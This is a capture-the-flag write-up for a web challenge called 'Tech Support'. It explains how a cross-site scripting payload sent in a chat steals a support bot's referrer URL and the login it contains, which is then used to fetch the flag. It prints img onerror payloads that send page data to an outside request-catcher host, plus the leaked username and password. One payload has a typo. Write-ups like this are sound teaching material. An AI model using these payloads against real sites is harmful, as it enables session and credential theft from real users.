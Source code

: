 # Tech Support (Web)

## Introduction

This challenge comes with the following instructions:

> Try chatting with tech support about getting a flag.

> Note: We have received multiple reports of exploits not working remotely, but we triple checked and concluded that the bot is working properly.

> https://typeselfsub.web.ctfcompetition.com/

This URL leads to a website for "Company x":

![Initial screen](img/home.png)


We must regiter to continue:

![Registration](img/register.png)


After logging in, two new URLs are available in the main menu.
https://typeselfsub.web.ctfcompetition.com/flag:

![Flag page](img/flag.png)


And https://typeselfsub.web.ctfcompetition.com/chat, where we can send chat messages.

![Chat page](img/chat.png)


The goal of this challenge is to perform an XSS attack on the chat user we are messaging in order to exfiltrate the flag.


## Observations

We will iniate the chat with this message and use [PTS](https://ptsv2.com/) to observe network requests.

```html
<img src=x onerror=fetch('https://ptsv2.com/t/xxxxx-xxxxxxxxxx/post?x='%2blocation.href)>
```

Note that "+" has to be encoded as "%2b". We can see that the chat user is currently at `https://typeselfsub-support.web.ctfcompetition.com/static/chat.html`.

![Exfiltration](img/pts.png)


We observe that the following pages are located on different subdomains:

* https://typeselfsub.web.ctfcompetition.com/flag
* https://typeselfsub-support.web.ctfcompetition.com/static/chat.html


Due to CORS restrictions, it is not possible to simply have the chat user fech the flag and to pass it to us.



## Exfiltration

Through trial and error, we find the solution in a different approach:

```html
<img src=x onerror=fetch('https://ptsv2.com/t/xxxxx-xxxxxxxxxx/post?x='%2document.referrer)>
```

![Exfiltration](img/pts2.png)

Note that the different parameters in the image are actually part of the [referrer](https://developer.mozilla.org/en-US/docs/Web/API/Document/referrer). Stitching it back together, we get this URL: https://typeselfsub.web.ctfcompetition.com/asofdiyboxzdfasdfyryryryccc?username=mike&password=j9as7ya7a3636ncvx&reason=

We are now logged in as Mike and can grab the flag:

![The Flag](img/flag-final.png)

Flag: `CTF{self-xss?-that-isn't-a-problem-right...}`

